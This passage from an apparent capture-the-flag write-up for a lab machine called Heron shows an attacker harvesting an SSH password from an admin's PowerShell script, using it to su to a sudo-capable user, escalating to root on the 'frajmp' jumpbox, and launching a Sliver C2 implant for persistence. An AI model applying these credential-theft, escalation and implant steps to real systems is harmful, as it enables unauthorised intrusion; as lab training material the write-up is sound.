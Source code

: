```
PS C:\Windows\scripts> cat ssh.ps1
$plinkPath = "C:\Program Files\PuTTY\plink.exe"
$targetMachine = "frajmp"
$user = "_local"
$password = "[...snip...]"
& "$plinkPath" -ssh -batch $user@$targetMachine -pw $password "ps auxf; ls -lah /home; exit"
```

This seems to contain the SSH password for the `_local` user. An admin user was probably trying to establish an SSH session to the `frajmp` jumpbox as this user using PuTTY.

Now that we have these credentials, we can try to login as this user on the jumpbox. We also won't need our reverse shell as `svc-web-accounting` any longer.

# Root Access to FRAJMP

Now that we have access as this user, we'll login in our other session as `pentest`.

```
pentest@frajmp:/tmp$ su _local
Password: 
_local@frajmp:/tmp$
```

Testing our root access with the password that we currently have indicates to me that this user has SUDO privileges to the entire filesystem.

```
_local@frajmp:/tmp$ sudo -l
[sudo] password for _local: 
Matching Defaults entries for _local on localhost:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User _local may run the following commands on localhost:
    (ALL : ALL) ALL
```

Since we have that, we can simply log in as the root user using `sudo su`.

```
_local@frajmp:/tmp$ sudo su
root@frajmp:/tmp# whoami
root
```

The second flag for this machine is within the root users home directory in `/root`. There isn't much to see aside from that, I did some file enumeration and did not come back with much.

I'll execute our Sliver implant just to ensure that we have access to the root user through our C2 server. This is just in case we need to tunnel any tools to the DC with the highest privilege on `FRAJMP`. --> `./heron_lin &`

![](/images/vulnlab/heron-vl/i.png)
